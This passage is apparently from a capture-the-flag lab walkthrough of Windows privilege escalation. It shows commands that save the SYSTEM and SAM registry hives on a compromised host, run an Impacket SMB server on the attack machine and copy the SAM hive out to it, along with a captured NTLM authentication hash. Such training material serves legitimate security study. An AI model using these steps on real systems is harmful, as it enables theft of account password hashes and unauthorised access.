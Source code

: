 3. `reg save <REGISTRY PATH> <DESTINATION FILE>` from the compromised Windows machine to export and save the specified registry hive, which in this case is `hklm\system`, from the Windows Registry to a file, which contains essential system-wide configuration settings and information on a Windows operating system
```PowerShell
C:\Windows\system32>reg save hklm\system C:\Users\THMBackup\system.hive
The operation completed successfully.
```

4. `reg save <REGISTRY PATH> <DESTINATION FILE>` from the compromised Windows machine to export and save the specified registry hive, which in this case is `hklm\sam`, from the Windows Registry to a file, which contains the SAM (`Security Accounts Manager`) database, which is responsible for managing user account information, such as passwords, security policies, and other authentication-related data
```PowerShell
C:\Windows\system32>reg save hklm\sam C:\Users\THMBackup\sam.hive           
The operation completed successfully.
```

5. `mkdir <DIRECTORY>` from our attack machine to create a directory that we'll make publicly accessible by setting up an SMB (Server Message Block) server
```Bash
root@ip-10-10-174-220:~# mkdir share
```

6. `python3.9 /opt/impacket/examples/smbserver.py -smb2support -username <USERNAME> -password <PASSWORD> public <DIRECTORY>` from our attack machine to set up a simple SMB (Server Message Block) server using the [Impacket Python library](https://pypi.org/project/impacket/) that'll provide a public share name "public" that we'll be able to access through the compromised Windows machine using the specified username and password 
```Bash
root@ip-10-10-174-220:~# python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

7. `copy <SAM BACKUP FILE> <SMB SHARE>` from the compromised Windows machine to copy our SAM backup file from the local machine to our SMB server that's running on our attack machine
```PowerShell
C:\Windows\system32>copy C:\Users\THMBackup\sam.hive \\10.10.174.220\public\                                                                                1 file(s) copied.
```
```Bash
[*] Incoming connection (10.10.160.214,49770)
[*] AUTHENTICATE_MESSAGE (WPRIVESC2\THMBackup,WPRIVESC2)
[*] User WPRIVESC2\THMBackup authenticated successfully
[*] THMBackup::WPRIVESC2:aaaaaaaaaaaaaaaa:18909ffd6a713ab97c95d0afdec779fe:010100000000000080db871c35c7d901da9b2ad82045ddfa00000000010010005500750068004a005500440065006100030010005500750068004a005500440065006100020010007900660056006800700073004d006c00040010007900660056006800700073004d006c000700080080db871c35c7d9010600040002000000080030003000000000000000000000000030000066375d7e28857eb587212f56dfdc68cc77fc1bad71a82ca14c5537d668b1a0930a001000000000000000000000000000000000000900240063006900660073002f00310030002e00310030002e003100370034002e003200320030000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:public)
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:public)
[*] Closing down connection (10.10.160.214,49770)
[*] Remaining connections []
```
